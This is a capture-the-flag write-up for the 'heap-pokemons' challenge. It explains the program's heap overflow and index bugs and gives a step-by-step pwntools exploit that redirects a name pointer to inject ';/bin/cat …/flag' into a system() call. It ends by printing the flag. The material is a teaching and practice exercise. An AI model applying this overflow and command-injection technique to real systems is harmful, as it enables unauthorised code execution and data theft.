

# heap-pokemons

[library.m0unt41n.ch/challenges/heap-pokemons](https://library.m0unt41n.ch/challenges/heap-pokemons)   

# TL;DR

Surprisingly simple (for a `hard`) heap exploitation challenge.

# Analysis

The server runs a [heap_pokemons.c](https://github.com/mufl0n/mufl0n.github.io/blob/main/shc/pwn/heap-pokemons/heap_pokemons.c) program, which allows
keeping track of 10 pokemons. We get them randomly assigned - and can add
own names to them. Then, printing the pokemon was *supposed* to do some
nice ASCII art, courtesy of a local copy of
[pokemonsay](https://github.com/possatti/pokemonsay).

... except that, well, it does not work - printing a pokemon fails
with `/usr/bin/pokemonsay: 8: ./pokemonsay.sh: Permission denied`
(visible in the Docker container). Reason: `/home/heappokemons/pokemonsay/*.sh`
don't have `+x` bit set. I'm still not sure whether this was intended - but,
in any case, does not prevent the exploitation.

## No ASLR

```c
checksec --file=heap_pokemons
RELRO   CANARY  NX       PIE  RPATH  RUNPATH  Symbols  Fortify
Parial  Found   Enabled  No   No     No       61       No
```

(confirmed with few test runs and peeking at `/proc/$PID/maps`)

## Bugs

*   `get_pokemon_index()` **allows entering `10`** as index.
    *   But all calls are guarded by `if(POKEMONS[pokemon_index] != 0)` so, unless
        we write something there using a different bug, that won't help.
*   `show_pokemon()` pulls name from statically initialized `pokemon_names`
    string array and `sprintf()`s that into a 100b string which then goes
    into `system()`.
    *   If we can get control of `pokemon_names`, **we can control the `system()` call**.
        Even if in its flawed part with the noexec issue above.    
*   `add_pokemon()`
    *   Looks for unused slot in POKEMONS. **If slot #9 is used, it will grab it anyway.**
    *   **We have control over chunk size** that gets allocated for new pokemon.
*   `edit_pokemon()`
    *   Ignores previous length, **we can overwrite up to +2048 bytes** starting from `name`.
*   `delete_pokemon()`
    *   **Does not free** the actual pokemon struct (leak?).


# Exploit

So, it would've been great to just overwrite the `sprinf()` format string, but that's
unfortunately in RODATA &#128578; But, the working solution is not very complex either:

*   We know (no PIE, confirmed with GDB) that the data segment offsets are fixed.
    Most importantly, `pokemon_names` is at `0x4040a0`.
*   With `edit_pokemon()` buffer overflow, we can arbitrarily write to heap, way beyond
    allocated chunks. Conveniently, the data is passed with `fgets()`, which lets the
    zeros through and stops only at `\n`.
*   We know that in `show_pokemon()`, the strings in `pokemon_names` list are passed to
    the `sprintf()` and then, to `system()`.

All that makes for a textbook heap exploit.


```python
#!/usr/bin/python3
import pwn

pwn.context(encoding='utf-8', log_level='warning')
io = pwn.remote('127.0.0.1', 1337)
```

First, let's create two small pokemons, taking the smallest size of heap chunk:

```python
io.sendlineafter("Input: ", "1")
io.sendlineafter("Pokemon Name Size: ", "16")
io.sendlineafter("New Pokemon Name: ", "AAAAAAAAAAAAAAA")

io.sendlineafter("Input: ", "1")
io.sendlineafter("Pokemon Name Size: ", "16")
io.sendlineafter("New Pokemon Name: ", "BBBBBBBBBBBBBBB")
```

How does the heap look like now? With [pwndbg](https://github.com/pwndbg/pwndbg)
and `vis_heap_chunks`:


Importantly, the only thing that changes between runs are heap offsets - which we don't need here.

Next step is to "rename" pokemon #0 (`0xfb264c0`, in orange), to something creative:

```python
payload1  = b'AAAAAAAAAAAAAAA\x00'               # Keep the original name
payload1 += b'YYYYYYYY'                          # Overwrite chunk spare bytes
payload1 += b'\x21\x00\x00\x00\x00\x00\x00\x00'  # Preserve next chunk header
payload1 += b'\x00\x00\x00\x00\x00\x00\x00\x00'  # POKEMONS[1]->pokemon_id = 0
payload1 += pwn.p64(0x4040a0)                    # POKEMONS[1]->name = &pokemon_names
io.sendlineafter("Input: ", "2")
io.sendlineafter("Pokemon Index: ", "0")
io.sendlineafter("New Pokemon Name: ", payload1)
```

We changed pokemon #1 to always have `pokemon_id=0` and the name to point to first string
in `pokemon_names`. The same that gets passed to `system(). Next step is to update that
string to something useful. Which we can now do by "renaming" pokemon #0:

```python
io.sendlineafter("Input: ", "2")
io.sendlineafter("Pokemon Index: ", "1")
io.sendlineafter("New Pokemon Name: ", ";/bin/cat /home/heappokemons/flag\0")
```

We now can "print" the pokemon #0. We expect it to:

*   fail the `pokemonsay` because of the noexec issue above
*   execute the `cat` and print the flag on the standard output

```python
io.sendlineafter("Input: ", "3")
io.sendlineafter("Pokemon Index: ", "1")
```

The only thing left is to collect the flag &#128578;

```python
io.recvuntil("cyberskills23{")
print("cyberskills23{"+io.recvuntilS("}"))
io.close()
```

This works both locally and vs remote instance. Full exploit: [exploit.py](https://github.com/mufl0n/mufl0n.github.io/blob/main/shc/pwn/heap-pokemons/exploit.py).

## Finding good payload for system()

I actually spent some time struggling to get `system()` to execute my second command.
Neither `/bin/sh` nor simple `cat` worked - after the failed `pokemonsay`, the
program was just exiting. Which was weird, because it *did* work in isolation:

```c
#include <stdio.h>
#include <stdlib.h>

char *pokemonsay_name="; echo yes";

int main(void) {
  char pokemonsay_cmd[100];
  sprintf(pokemonsay_cmd, "pokemonsay -p %s ohai", pokemonsay_name);
  system(pokemonsay_cmd); fflush(stdout);
}

$ ./test
sh: line 1: pokemonsay: command not found
yes ohai
```

I am still not sure what was the problem there. At some point I thought it's
because of `/bin/nologin` shell of the user. But then, the problem was
reproducible when running the server as root. I suspect something related to
the shell being interactive (with TTY etc) vs. simple standard I/O redirects.

---

## `cyberskills23{c4tch_p0k3m0ns_0n_h34p}`


<hr>

&copy; [muflon77](https://library.m0unt41n.ch/players/805ae1c8-9fe4-5816-b4a4-5057fa6eedb1)
